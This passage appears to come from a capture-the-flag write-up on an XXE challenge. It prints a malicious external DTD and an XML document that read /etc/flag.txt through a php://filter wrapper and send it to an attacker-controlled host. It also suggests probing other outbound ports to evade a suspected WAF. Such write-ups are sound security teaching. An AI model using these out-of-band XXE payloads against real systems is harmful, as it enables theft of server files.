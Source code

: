 <img src="./attachments/xml_specification.png">

Our current exploit indeed does have parameter entity reference within a markup declaration in the internal DTD subset right here:
`<!ENTITY % XXE "<!ENTITY exfil SYSTEM 'http://[IP REDACTED]/?flag=%flag;'>">`

Luckily this does not affect external parameter entities, so we can just use an external DTD.

Let's start by creating a malicious DTD file to be used:
```xml
<!ENTITY % flag SYSTEM "php://filter/convert.base64-encode/resource=/etc/flag.txt">
<!ENTITY % XXE "<!ENTITY exfil SYSTEM 'http://[IP REDACTED]/?flag=%flag;'>">
```

Then let's create an XML document that will retrieve our external DTD:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE XXE [
	<!ENTITY % dtd SYSTEM "http://[IP REDACTED]/malicious.dtd">
	%dtd;
	%XXE;
]>
<creds>
	&exfil;
</creds>
```

Now this should surely work.

Let's spin up our server once again and send our payload.

<img src="./attachments/php-server.png" width="500">

Hmm... There's nothing coming through... Is the server really vulnerable to XXE?

Before giving up, there's one last thing that should be tried.

The challenge description said that this challenge was based on a real world example of a finding from a bug bounty target. In these realistic scenarios the developers (hopefully) try to make their systems secure. This means that they might use different kinds of external protections e.g. Web Application Firewall (WAF).

There is a possibility that the server has a WAF instance filtering outbound traffic on port 80. We can simply fuzz other common ports to see if this hypothesis stands. If the WAF is configured in a way that it filters outbound traffic only on port 80, there is a possibility that the data could be exfiltrated over another port.
